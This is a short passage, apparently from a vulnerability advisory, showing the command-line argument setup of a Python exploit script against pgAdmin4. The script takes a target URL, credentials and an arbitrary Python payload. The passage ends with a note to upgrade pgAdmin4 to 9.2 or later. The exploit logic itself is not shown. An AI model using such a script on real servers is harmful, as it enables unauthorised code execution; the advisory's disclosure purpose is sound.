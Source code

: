 ```
    )
    parser.add_argument(
        "--target-url", required=True,
        help="Base URL of the target pgAdmin4 instance (http://RHOST:RPORT/)"
    )
    parser.add_argument("--username", help="pgAdmin4 username", required=True)
    parser.add_argument("--password", help="pgAdmin4 password", required=True)
    parser.add_argument(
        "--db-user", help="Username of the database used to initialize sqleditor", required=True
    )
    parser.add_argument("--db-pass", help="Database password", required=True)
    parser.add_argument("--db-name", help="Database db name", required=True)
    parser.add_argument("--payload", help="Payload (Python code)", required=True)
    parser.add_argument(
        "--max-server-id", type=int, default=10, help="Maximum number of Server IDs to try"
    )
    parser.add_argument(
        "--skip-version-check", action="store_true",
        help="Do not check if target version is affected before exploit"
    )
    ns = parser.parse_args()
    sys.exit(int(not exploit(
        ns.target_url, ns.username, ns.password, ns.db_name, ns.db_user, ns.db_pass, ns.payload,
        ns.max_server_id, ns.skip_version_check,
    )))
```

## 漏洞修复

将组件 pgadmin4 升级至 9.2 及以上版本。
